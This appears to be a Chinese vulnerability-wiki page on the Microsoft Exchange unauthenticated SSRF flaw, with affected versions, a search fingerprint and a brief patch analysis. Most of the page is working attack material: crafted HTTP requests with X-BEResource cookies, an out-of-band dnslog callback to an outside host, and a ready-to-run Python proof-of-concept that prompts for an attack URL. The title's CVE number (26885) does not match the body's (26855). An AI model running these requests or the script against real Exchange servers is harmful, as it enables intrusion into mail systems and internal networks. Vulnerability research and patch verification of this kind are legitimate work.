





# Microsoft Exchange SSRF漏洞 CVE-2021-26885

## 漏洞描述

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描内网，并且可获取Exchange用户信息。该漏洞利用无需身份认证

## 漏洞影响

```
Exchange 2013 Versions < 15.00.1497.012,
Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009,
Exchange 2019 CU7 < 15.02.0721.013,
Exchange 2019 CU8 < 15.02.0792.010
```

## 网络测绘 

```
icon_hash="1768726119"
```

## 漏洞复现

与 SSRF 有关的文件

```plain
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

查看补丁中的改变，可以看到有关 **BackEndServer** 使用的类关于 **BEResourceRequestHandler** 的改变



修复 BEResourceRequestHandler 使用的 BakcEndServer类的补丁



查看调用**BERsourceRequestHandler** 的方法 **SelectHandlerForUnauthenticatedRequest** 查找相关路径 **ProxyMoudle**


可以从中看到需要带有 EXP协议(例如路径 /ecp/), Cookie参数 **X-BEResponse**, 还有以静态扩展名结尾的 URL (例如 x.js, x.css等)

而其中的请求为 HttpProxy 来实现的，所以大部分的POC中请求的文件为**/etc/y.js** 这样类似不存在的文件

参数 **X-BEResource** 解析在 **BackEndServer.FromString**

跟踪 **BackEndServer**对象， 其中该对象使用 **ProxyRequestHandler** 向主机发送请求



这里进行SSRF的漏洞复现，首先访问 **/ecp/PeiQi.js** 文件

并设置Cookie **X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true**

```plain
GET /ecp/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true
```

用这样的方式请求可以确定是否存在 SSRF漏洞

```plain
响应包为:
NegotiateSecurityContext failed with for host 'peiqi_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

在通过发送一个请求给 Dnslog确认是否存在 SSRF给 Dnslog发送了一个请求

```plain
GET /owa/auth/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```

Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;

将其中的 Dnslog换成自己的





确定收到了由服务端发送的请求，存在SSRF漏洞

## 漏洞POC

```python
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Microsoft Exchange多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mDnslog      >>> xxxx.dnslog.cn                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = "https://" + target_url + "/ecp/PeiQi.js"
    headers = {
        'Cookie': 'X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true'
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 500 and 'NegotiateSecurityContext' in response.text and 'peiqi_wiki' in response.text:
            print("\033[32m[o] 目标 {} 存在SSRF漏洞， 输入Dnslog地址进一步检测....\033[0m".format(target_url))
            dnslog = str(input("\033[35mDnslog >>> \033[0m"))
            POC_2(target_url, dnslog)
        else:
            print("\033[31m[x] 目标 {} 不存在SSRF漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, dnslog):
    vuln_url = "https://" + target_url + "/owa/auth/PeiQi.js"
    headers = {
        'Cookie': 'X-AnonResource=true; X-AnonResource-Backend={}/ecp/default.flt?~3; X-BEResource={}/owa/auth/logon.aspx?~3;'.format(dnslog, dnslog)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 请查看 Dnslog：{} 响应....\033[0m".format(dnslog))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


